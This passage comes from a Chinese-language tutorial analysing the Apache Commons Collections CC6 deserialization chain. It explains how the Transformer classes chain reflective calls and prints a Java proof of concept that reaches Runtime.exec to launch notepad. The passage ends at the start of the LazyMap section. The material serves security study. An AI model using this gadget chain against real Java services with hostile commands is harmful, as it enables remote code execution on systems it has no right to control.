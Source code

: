 这个类的构造函数接收一个Transformer类型的数组，并且在transform方法中会遍历这个数组，并调用数组中的每一个成员的transform方法，而且会把上一个成员调用transform的方法返回的对象，当作下一个成员的transform方法的参数，这就是一个链式调用，配合InvokerTransformer类中的transform方法，input也可控了



至此整个漏洞核心已经明了，利用ConstantTransformer的transform方法获取Runtime.class，再利用ChainedTransformer的transform方法把Runtime.class传给InvokerTransformer的transform方法利用，再利用ChainedTransformer的transform方法不断调用InvokerTransformer的transform方法，利用这个方法的反射相关代码，所有参数都是可控的。

可能有点晕，这三个XXXtransformer类都是实现了TransFormer这个接口，所以他们都有一个transform方法

```java
InvokerTransformer ：transform方法通过反射可以执行一个对象的任意方法

ConstantTransformer ： transform返回构造函数传入的参数

ChainedTransformer ：transform方法执行构造函数传入数组的每一个成员的transform方法
```

把这几个transformer组合起来构造一个执行链，代码如下,这是直接截取的CC6链的部分代码：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class TestTest {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"notepad"}),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);
        transformerChain.transform("a");
    }
}
```

执行代码，利用成功，成功弹出记事本

![image-20221130102839739](https://static.sechelper.com/img/2022/11/30/57872890ea984240bce96a69a9a0217a.png)

这里只是手动触发，现在要看一下被动触发，也就是在真实的应用中怎么触发ChainedTransformer的transform方法。

全局寻找哪个类中使用了factory方法，并且我们可以利用，锁定到了LazyMap类

### LazyMap利用链
